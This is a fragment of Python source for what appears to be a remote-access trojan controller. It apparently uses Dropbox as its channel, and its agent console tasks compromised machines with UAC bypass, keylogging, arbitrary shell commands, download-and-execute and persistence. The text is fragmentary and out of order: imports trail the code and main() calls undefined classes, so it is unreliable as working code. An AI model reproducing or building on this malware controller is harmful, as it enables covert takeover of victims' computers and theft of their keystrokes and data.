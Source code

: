
class AgentCMD(cmd.Cmd):

	# This is the Agent command line .
	def do_sysinfo(self,s):
		sendTask(interactedAgent,"{SHELL}systeminfo")
	def do_bypassuac(self,s):
		sendTask(interactedAgent,"bypassuac")
	def do_keylog_start(self,s):
		sendTask(interactedAgent,"keylog_start")
	def do_keylog_stop(self,s):
		sendTask(interactedAgent,"keylog_stop")
	def do_keylog_dump(self,s):
		sendTask(interactedAgent,"keylog_dump")
	def do_exec(self,s):
		sendTask(interactedAgent,"{SHELL}%s" % s)
	def do_downloadexecute(self,s):
		sendTask(interactedAgent,"{DOWNLOAD}%s" % s)
	def do_persist(self,s):
		sendTask(interactedAgent,"persist")
	def do_back(self,s):
		interactedAgent = ""
		return True
	def emptyline(self):
		pass


def main():
	print banner

	agents = AgentChecker()
	checker = TaskChecker()
	commandInputs = Input().cmdloop()
	

if __name__ == "__main__":
	main()
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	
import os
import dropbox
import time
import threading
import cmd
import json
import base64
